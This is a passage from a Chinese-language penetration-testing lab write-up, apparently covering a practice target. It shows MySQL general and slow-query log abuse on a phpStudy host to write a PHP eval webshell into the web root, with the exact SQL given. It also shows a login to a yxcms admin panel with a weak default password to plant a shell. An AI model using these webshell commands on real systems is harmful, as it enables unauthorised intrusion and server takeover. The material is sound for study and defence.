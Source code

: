（ps：这里的www路径可以在探针里看，也可以利用@@datadir爆出phpstudy路径，然后根据默认路径找到www）
![](https://i.loli.net/2021/03/18/8x9qDXUIEwoNbVT.png)

```mysql
select '<?php eval($_POST[hhh]);?>'
```

![](https://i.loli.net/2021/03/18/qfaN7S8PvFMn5yc.png)

文件内容如下，就是一个存储命令和状态的日志
![](https://i.loli.net/2021/03/18/KtlRNa18eAsyBc7.png)

蚁剑连接即可：

![](https://i.loli.net/2021/03/18/xRuFK9zbdq4Zs6j.png)

###### 使用慢查询日志getshell

- 慢查询日志：
  记录所有执行时间超过long_query_time秒的所有查询或者不使用索引的查询。默认情况下，MySQL数据库是不开启慢查询日志的，long_query_time的默认值为10（即10秒，通常设置为1秒），即运行10秒以上的语句是慢查询语句
  （ps：和全局日志一样都是讲恶意语句写入日志中，只是二者记录的条件不同）
- 步骤：
  - 查看相关参数：`show variables like '%slow%';`
  - 启用慢查询日志，并修改路径：
    `set global slow_query_log_file = 'C:/phpStudy/WWW/hhh2.php';`
    `set GLOBAL slow_query_log=on;`
  - 写入shell：`select '<?php eval($_POST[hhh]);?>' from mysql.db where sleep(10);`

![](https://i.loli.net/2021/03/18/57lRmE3kZtqGo8A.png)
![](https://i.loli.net/2021/03/18/jDBZV9ymuG6r37c.png)j

看一下www目录下还有个yxcms，em看了这里也可以getshell，那么就来看一下吧

#### yxcms后台getshell

搜了一下相关漏洞，后台getshell好像更容易一些
后台路径：`ip/yxcms/index.php?r=admin`,又是弱口令：admin、123456直接登入了，不得不说弱口令yyds
（说起来学校也是好多弱口令，当然我没打过啊，只是知道密码--）

在后台里可以直接 新建 | 修改文件内容，那么直接上马，连接即可

![](https://i.loli.net/2021/03/18/N21VQTJFhci98kO.png)



外网大概就是到这里0。0，内网还在研究，需要学习一下msf和cs的使用



## 拿下VM1进入内网

### 信息收集

